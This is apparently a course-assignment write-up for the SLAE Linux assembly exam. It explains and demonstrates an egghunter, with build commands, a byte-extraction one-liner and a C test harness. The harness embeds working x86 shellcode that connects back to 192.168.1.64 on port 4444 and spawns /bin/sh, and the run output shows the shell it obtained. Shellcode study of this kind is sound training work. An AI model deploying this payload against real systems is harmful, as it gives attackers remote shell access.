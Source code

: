It is a very good way to read all memory positions, this egghunter shellcode was described in the Skape paper about the EggHunter. In this program, every memory position is read using the syscall sigaction, when the code EFAULT is returned means that the position is invalid and when it happens we aling the page, but when the position is OK we check the content of these position and compare with our EGG. If the egg is inside the position, our shellcode is 8-bytes after. So we jump to the 8-byte after position where we found the EGG.


#### Demo

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ nasm -f elf32 egg-hunter.nasm -o egg-hunter.o
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ ld egg-hunter.o -o egg-hunter
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ objdump -d ./egg-hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7"
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ cat shellcode.c 
#include<stdio.h>
#include<string.h>

#define EGG "\x90\x50\x90\x50"

unsigned char egg_hunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char code[] = 
EGG
EGG 
"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68\xc0\xa8\x01\x40\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Egg hunter Length: %d\n", strlen(egg_hunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egg_hunter;

	ret();

}
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ ./shellcode 
Egg hunter Length: 30
Shellcode Length:  94
$ id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
$
``` 
